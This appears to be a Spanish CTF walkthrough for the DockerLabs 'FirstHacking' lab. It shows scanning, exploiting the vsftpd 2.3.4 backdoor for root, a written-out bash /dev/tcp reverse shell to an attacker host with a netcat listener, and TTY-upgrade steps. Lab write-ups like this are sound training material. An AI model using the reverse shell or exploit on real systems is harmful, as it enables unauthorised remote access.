

# Maquina FirstHacking - DockerLabs.es

Primero, debemos verificar que nuestra máquina esté correctamente desplegada.

Realizamos un ping a la máquina para verificar la comunicación y confirmamos que la conexión es exitosa.

A continuación, realizamos un escaneo de la IP utilizando Nmap.

Observamos que el puerto 21 está abierto. Ahora realizamos un escaneo adicional para detectar, enumerar servicios y versiones.

Podemos observar que el puerto 21 está ejecutando el servicio FTP con la versión `vsftpd 2.3.4`. Al investigar esta versión, descubrimos que existen CVEs (Common Vulnerabilities and Exposures) asociadas. Utilizando la herramienta `searchsploit`, encontramos varios exploits que podrían ser aplicables a esta versión del servicio.

Podemos utilizar los siguientes comandos para trasladar el exploit a nuestro directorio de trabajo actual de la siguiente manera:

A continuación, ejecutamos el exploit de la siguiente manera:

¡Ahora tenemos una shell con privilegios de "root"! Para verificarlo, podemos ejecutar el comando `whoami`.

Si deseamos trabajar de manera más cómoda, podemos establecer una conexión desde nuestra máquina atacada hacia nuestra máquina atacante utilizando Netcat y, a continuación, aplicar un tratamiento de TTY.

## (Opcional) Trabajar de manera mas cómoda

Esto lo hacemos de la siguiente manera:

Primero, ejecutaremos `echo $SHELL` para verificar qué shell estamos utilizando por defecto. Si el resultado está vacío, escribiremos el comando `bash`. Luego, volveremos a ejecutar `echo $SHELL` y notaremos que ahora el resultado es `/bin/bash`. Es importante realizar este paso porque, de no hacerlo, podrías experimentar un error de sintaxis al intentar lanzar una "shell" hacia la máquina atacante.

Adjunto foto del error:

Una vez completado el paso anterior, configuramos nuestra máquina atacante para escuchar con Netcat utilizando el comando `nc -nvlp 4444`. Luego, desde la shell en la máquina víctima, ejecutamos el siguiente comando:

`bash -i >& /dev/tcp/IpMaquinaAtacante/4444 0>&1`

## (Opcional) Tratamiento de la TTY

Notamos que, una vez dentro, no podemos utilizar `Ctrl + L`, el comando `clear`, ni otras funciones similares.

**Para trabajar de manera mas cómoda haremos lo siguiente:**

Una vez estemos dentro ejecutamos el siguiente comando: `script /dev/null -c bash`

Luego presionamos: `Ctrl + Z` para suspender el proceso

A continuación, escribimos: `stty raw -echo; fg`

Despues ingresamos: `reset`

Cuando se nos pregunte: "Terminal type?" Ingresamos `xterm`.

Finalmente, exportamos las siguientes variables de entorno: `export TERM=xterm` `export SHELL=bash`

Y listo!
